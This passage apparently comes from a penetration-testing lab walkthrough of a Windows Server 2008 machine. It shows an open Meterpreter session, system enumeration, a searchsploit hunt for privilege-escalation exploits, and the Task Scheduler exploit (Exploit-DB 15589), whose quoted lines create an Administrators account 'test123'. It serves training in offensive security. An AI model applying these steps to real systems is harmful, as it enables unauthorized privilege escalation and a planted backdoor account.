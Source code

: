 ```bash
[*] Meterpreter session 1 opened (192.168.49.68:443 -> 192.168.68.46:49167) at 2020-12-27 18:14:21 +0000

meterpreter > getuid
Server username: apache (0)
meterpreter >

Escalation
Local Enumeration

Next, we’ll perform local enumeration in the hopes of escalating our privileges. We’ll begin by enumerating the operating system version.

meterpreter > sysinfo 
Computer    : LIVDA
OS          : Windows NT LIVDA 6.0 build 6001 (Windows Server 2008 Standard Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >

According to the Exploit Database, this machine is vulnerable to a Task Scheduler Privilege Escalation exploit.

kali@kali:~$ searchsploit ""Privilege Escalation"" | uniq | grep -v metasploit | grep -i ""windows ""
Fortinet FortiClient 5.2.3 (Windows 10 x64 Creators) - Local Privilege E | exploits/windows_x86-64/local/45149.cpp
Fortinet FortiClient 5.2.3 (Windows 10 x64 Post-Anniversary) - Local Pri | exploits/windows_x86-64/local/41722.c
Fortinet FortiClient 5.2.3 (Windows 10 x64 Pre-Anniversary) - Local Priv | exploits/windows_x86-64/local/41721.c
Fortinet FortiClient 5.2.3 (Windows 10 x86) - Local Privilege Escalation | exploits/windows_x86/local/41705.cpp

...

Microsoft Windows - Task Scheduler Privilege Escalation                  | exploits/windows/local/15589.wsf

...

Windows - NtUserSetWindowFNID Win32k User Callback Privilege Escalation  | exploits/windows/local/47134.rb
Windows - Shell COM Server Registrar Local Privilege Escalation          | exploits/windows/local/47880.cc
XAMPP for Windows 1.6.3a - Local Privilege Escalation                    | exploits/windows/local/4325.php

Task Scheduler Privilege Escalation Exploit

Let’s copy the exploit file to a directory on our attack machine.

kali@kali:~$ file /usr/share/exploitdb/exploits/windows/local/15589.wsf
/usr/share/exploitdb/exploits/windows/local/15589.wsf: HTML document, ASCII text, with CRLF line terminators

kali@kali:~$ cp /usr/share/exploitdb/exploits/windows/local/15589.wsf .

This exploit creates a new user (test123) with a matching password (test123) and adds the user to the Administrators group:

a.WriteLine (""net user /add test123 test123"")
a.WriteLine (""net localgroup administrators /add test123"")
```